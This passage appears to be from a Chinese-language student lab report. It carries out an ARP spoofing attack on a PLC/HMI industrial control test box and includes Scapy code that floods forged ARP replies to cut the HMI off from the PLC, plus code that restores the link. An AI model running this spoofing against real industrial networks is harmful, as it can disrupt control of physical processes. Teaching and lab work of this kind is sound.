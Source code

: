   由此就得到了PLC和HMI的MAC地址分别为`e0:dc:a0:36:bf:fd`和`e0:dc:a0:30:2f:3f`



### ARP欺骗攻击

```python
atk = ARP(psrc="192.168.1.3", hwsrc="ee:ee:ee:ee:ee:ee", hwdst="e0:dc:a0:30:2f:3f", pdst="192.168.1.4", op='is-at')
send(atk, inter=RandNum(10,20), loop=1)
```

首先创建一个叫做`atk`的ARP数据包对象，指定源IP地址为PLC的IP地址，目标MAC和目标IP地址为HMI的，并且拟造一个假的源MAC

然后用Scapy的send函数不断发送ARP欺骗攻击数据包，并且在每个数据包之间随即设置时间间隔，以增加攻击的随机性



当实验箱接收到了我们发送的ARP欺骗包后，HMI便无法控制PLC，一些显示信息也无法正常显示

![img_v3_0257_7f38675c-4eef-430d-b83f-fc1d32bcfd3g](./assets/img_v3_0257_7f38675c-4eef-430d-b83f-fc1d32bcfd3g.jpg)



### 复原现场

复原现场有两种方式

1. 我们自己发送ARP包帮助HMI恢复与PLC的连接

首先中断atk包的发送，然后发送resume包

```python
resume = ARP(psrc="192.168.1.3", hwsrc="e0:dc:a0:36:bf:fd", hwdst="e0:dc:a0:30:2f:3f", pdst="192.168.1.4", op='is-at')
send(resume, inter=RandNum(1,10), loop=1)
```

当HMI接收到这个ARP包后就可以恢复对于PLC的控制

![img_v3_0257_ac303c74-7b76-4af1-adcc-642d6f640b4g](./assets/img_v3_0257_ac303c74-7b76-4af1-adcc-642d6f640b4g.jpg)



2. 等待试验箱自己发送ARP广播恢复连接

根据我们实验时的观察可知，在停止ARP攻击后即使不发送resume包，HMI对于PLC的控制也会在一段时间内恢复

经过我们分析，可能是试验箱有着自我恢复机制，即会自动广播ARP包，帮助HMI和PLC之间进行连接



## 五、回答问题

### 1. 为什么攻击后需要复原现场？

> 攻击后复原现场让系统能恢复正常的通信，还原我们对实验箱的攻击造成的破坏，保护实验箱是我们做实验时的责任。



### 2. 本实验的攻击效果与实验二中指令攻击的攻击效果有何异同？为什么？
